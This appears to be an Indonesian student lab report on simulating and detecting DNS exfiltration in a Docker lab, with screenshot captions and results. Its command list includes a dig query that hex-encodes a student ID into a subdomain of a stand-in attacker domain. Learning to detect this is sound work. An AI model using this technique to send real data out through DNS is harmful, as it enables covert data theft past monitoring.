






# DNS Exfiltration — Kasus 8

**Pertemuan:** 7

## Tujuan

Mensimulasikan pencurian data lewat query DNS (data dikodekan hex di label subdomain), lalu mendeteksinya dari log DNS dan mendekode kembali.

## Langkah dan Perintah

```bash
docker compose -p k8 -f b/b4-dns-exfil/docker-compose.yml up -d
echo -n 24552011387 | xxd -p
docker compose -p k8 -f b/b4-dns-exfil/docker-compose.yml exec attacker dig +short 3234353532303131333837.k8.exfil.lab @dns
docker compose -p k8 -f b/b4-dns-exfil/docker-compose.yml logs dns > dns-k8.log
python3 kasus/k9-dns-detect/analisis_dns.py dns-k8.log
echo 3234353532303131333837 | xxd -r -p
docker compose -p k8 -f b/b4-dns-exfil/docker-compose.yml down -v
```

- `up -d` menjalankan server DNS (dnsmasq) dan container attacker pada jaringan `k8_lab`.
- `echo -n 24552011387 | xxd -p` mengubah NIM menjadi hex: `3234353532303131333837`.
- `dig +short <hex>.k8.exfil.lab @dns` mengirim query DNS dengan data sebagai label subdomain ke server DNS lab.
- `logs dns > dns-k8.log` menyimpan log server DNS ke file.
- `analisis_dns.py` menghitung query per domain induk dan menandai query dengan label panjang berisi hex.
- `xxd -r -p` mendekode hex kembali menjadi teks asli.

## Bukti Screenshot

**Screenshot 1:** Lingkungan DNS exfiltration dijalankan (jaringan `k8_lab`, `k8-dns-1`, `k8-attacker-1`).



**Screenshot 2:** NIM dikonversi ke hex: `3234353532303131333837`.



**Screenshot 3:** Query `dig` dengan label hex dijawab server DNS dengan `10.0.0.99`.



**Screenshot 4:** Log DNS disimpan ke `dns-k8.log`.



**Screenshot 5:** Keluaran `analisis_dns.py`: jumlah query per domain induk dan daftar query mencurigakan.



**Screenshot 6:** Pembersihan lingkungan dengan `down -v`.



## Hasil Pengujian

1. Hex dari NIM: `3234353532303131333837`. Query `3234353532303131333837.k8.exfil.lab` dijawab dengan `10.0.0.99`.
2. Log DNS berhasil disimpan ke `dns-k8.log`.
3. `analisis_dns.py` melaporkan `exfil.lab: 1` pada bagian jumlah query per domain induk, lalu menampilkan judul bagian `Query mencurigakan (label panjang berisi hex)`. Daftar isi bagian mencurigakan tidak terlihat pada screenshot, sehingga deteksi label hex di log tidak bisa dikonfirmasi dari bukti ini.
4. Dekode manual: pasangan hex `32 34 35 35 32 30 31 31 33 38 37` berturut-turut adalah karakter `2 4 5 5 2 0 1 1 3 8 7`, yaitu `24552011387`. Hasil ini diperoleh dari perhitungan, bukan dari screenshot `xxd -r -p`.

## Kesimpulan

Data dapat diselundupkan lewat label subdomain pada query DNS dan tetap sampai ke server DNS penyerang. Pendeteksian dapat dilakukan dengan memeriksa log DNS untuk label yang panjang, berisi hex, atau berulang pada satu domain induk. Bukti deteksi dan dekode pada praktikum ini belum lengkap (daftar query mencurigakan dan hasil `xxd -r -p` tidak tertangkap).
